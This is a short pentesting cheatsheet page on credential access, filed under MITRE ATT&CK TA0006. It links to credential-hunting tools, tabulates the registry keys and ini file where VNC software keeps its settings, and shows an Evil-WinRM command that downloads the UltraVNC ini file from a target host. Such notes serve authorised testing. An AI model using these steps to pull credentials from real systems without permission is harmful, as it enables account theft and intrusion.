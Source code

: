 ```yaml
---
layout: post
title: TA0006 Credentials Access - Miscellaneous
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-12-12
permalink: /:categories/:title/
---
```


**Mitre Att&ck Entreprise**: [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)

**Menu**
<!-- vscode-markdown-toc -->
* [Services](#Services)
* [Scheduled Tasks](#ScheduledTasks)
* [Web Browsers](#WebBrowsers)
* [VNC](#VNC)
* [WinSCP](#WinSCP)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


## <a name='Services'></a>Services
- [LDAP-Password-Hunter](https://github.com/oldboy21/LDAP-Password-Hunter)
- [ldapnomnom](https://github.com/lkarlslund/ldapnomnom)
- [oracle odat](https://github.com/quentinhardy/odat)

## <a name='ScheduledTasks'></a>Scheduled Tasks

## <a name='WebBrowsers'></a>Web Browsers

- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

## <a name='VNC'></a>VNC

* VNC softwares properties :  

| software | registry key | folder |
|----------|--------------|--------|
| real vnc | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | |
| UltraVNC | | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /
```

## <a name='WinSCP'></a>WinSCP
